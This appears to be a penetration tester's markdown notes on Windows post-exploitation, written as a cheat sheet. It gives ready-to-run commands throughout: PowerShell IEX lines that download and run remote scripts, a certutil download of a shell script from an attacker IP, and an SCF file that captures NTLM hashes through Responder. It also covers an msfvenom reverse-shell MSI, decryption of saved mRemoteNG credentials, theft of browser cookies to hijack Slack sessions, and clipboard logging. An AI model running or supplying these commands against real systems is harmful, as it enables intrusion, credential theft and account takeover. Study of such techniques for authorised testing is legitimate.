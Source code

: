 ### Interacting with users:
Wire shark installed?
	Capture credentials
	[net-creds](https://github.com/DanMcInerney/net-creds) to sniff passwords and hashes from a pcap
	
#### Monitoring for Process command lines
Create a powershell script:
```powershell
While($true){			
$process = Get-WmiObject Win32_Process | Select-Object CommandLine
Start-Sleep 1
$process2 = Get-WmiObject Win32_Process | Select-Object CommandLine
Compare-Object -ReferenceObject $process -DifferenceObject $process2
}
```

Host the script on the attacking machine and execute on target machine:
```powershell
IEX (iwr 'http://10.10.10.205/procmon.ps1')
```

### Shell Command File (SCF)
Used by windows explorer to move up and down directories
Can be manipulated to have the icon file location point to a specific UNC path. 
#### Exploit
Change the Icon file to an SMB session and run [Responder](https://github.com/lgandx/Responder), may be able to captire NTLM hashes.   
##### Example:
Make a file with '@' at the start and extension `.scf`, the @ makes sure windows see its straight away i.e `@test.scf`
``` notepad
[Shell]
Command=2
IconFile=\\<listener ip>\share\legit.ico
[Taskbar]
Command=ToggleDesktop 
```
Start Responder 
```bash
sudo responder -wrf -v -I <tun0>
```

Crack the passwords
Malicous .ink File
Doesn't work on Server 2019 hosts.
[Lnkbomb](https://github.com/dievus/lnkbomb) to create a .ink file

## Pillaging 
Obtaining information from a compromised system
Identify Common Applications
Program Files + (x86)
List Installed Programs
```powershell
$INSTALLED = Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* 

$INSTALLED += Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, InstallLocation

$INSTALLED | ?{ $_.DisplayName -ne $null } | sort-object -Property DisplayName -Unique | Format-Table -AutoSize
```
### mRemoteNG
Used to connect systems using RDP, VNC, SSH
Connection info and credentials saved to confCons.xml.
password is mR3m
```powershell
ls C:\Users\julio\AppData\Roaming\mRemoteNG
```
Decrypt password using [mRemoteNG-Decrypt](https://github.com/haseebT/mRemoteNG-Decrypt)
```python 
python 3 mremoteg_decrypt.py -s <password> -p <custom password>
```
Run a for loop with a word list on it.
Cookie Abuse to get access to Instant messengers.
[Slack Abuse](https://posts.specterops.io/abusing-slack-for-offensive-operations-2343237b9282)

### Firefox
Copy Firefox cookies
```powershell
copy $env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\cookies.sqlite .
```

#### [Cookie Extractor](https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/cookieextractor.py)
```python 
python3 cookieextractor.py --dbpath "/home/plaintext/cookies.sqlite" --host slack --cookie d 
```
Use a [cookie editor extension](https://cookie-editor.cgagnier.ca/)

### Chromium 
[Invoke-SharpChromium](https://github.com/djhohnstein/SharpChromium)
```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-SharpChromium.ps1')

Invoke-SharpChromium -Command "cookies slack.com" 
```
### Monitor Clipboard 

```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/inguardians/Invoke-Clipboard/master/Invoke-Clipboard.ps1')

Invoke-ClipboardLogger
```

## Living of the Land of Binaries and Scripts ([LOLBAS](https://lolbas-project.github.io/#))
Documents binaries, scripts and libraries that can be used on windows Systems.

Transferring files with [Cerutil](https://lolbas-project.github.io/lolbas/Binaries/Certutil/)
```cmd
certutil.exe -urlcache -split -f http://10.10.14.3:8080/shell.bat shell.bat
```
Encoding files
```cmd
certutil -encode file1 encodedfile
```
Decoding files
```cmd
certutil -decode encodedfile file2
```
Execute DLL with [rundll32.exe](https://lolbas-project.github.io/lolbas/Binaries/Rundll32/)
Always Install Elevated
Local group policy
```cmd
Computer Configuration\Administrative Templates\Windows Components\Windows Installer
```
```cmd
User Configuration\Administrative Templates\Windows Components\Windows Installer
```
Enumerate always install elevated settings.
```cmd
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```
Generate malicious MSI package and execute to get a reverse shell.
```bash
msfvenom -p windows/shell_reverse_tcp lhost=<ip> lport=<port> -f msi > aie.msi
```
Execute MSI package
```powershell
msiexec /i  <path to file> /quiet /qn /norestart
```

### Scheduled tasks
[schtasks](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks) command 
```powershell
schtasks /query /fo LIST /v

Get-ScheduledTask | select TaskName,State
```
Can only see tasks created by current user.
C:\Scripts Permissions
```cmd
.\accesschk64.exe /accepteula -s -d C:\Scripts\
```
User/Computer Description Field
[Get-LocalUser](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.localaccounts/get-localuser?view=powershell-5.1)
Clear text passwords?
### [Get-WmiObject](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.management/get-wmiobject?view=powershell-5.1)
```cmd
Get-WmiObject -Class Win32_OperatingSystem | select Description
```
### Virtual hard disk drives:
.vhd .vhdx .vmdk 
### Use the tool [snaffler](https://github.com/SnaffCon/Snaffler)
Mount the files on linux:
### VMDK
```cmd
guestmount -a SQL01-disk1.vmdk -i --ro /mnt/vmdk
```
VHD/VHDX
```cmd
guestmount --add WEBSRV10.vhdx  --ro /mnt/vhdx/ -m /dev/sda1
```
Mount in windows:
DiskManagement
Actions - Attach VHD
[Mount-VHD](https://learn.microsoft.com/en-us/powershell/module/hyper-v/mount-vhd?view=windowsserver2019-ps)
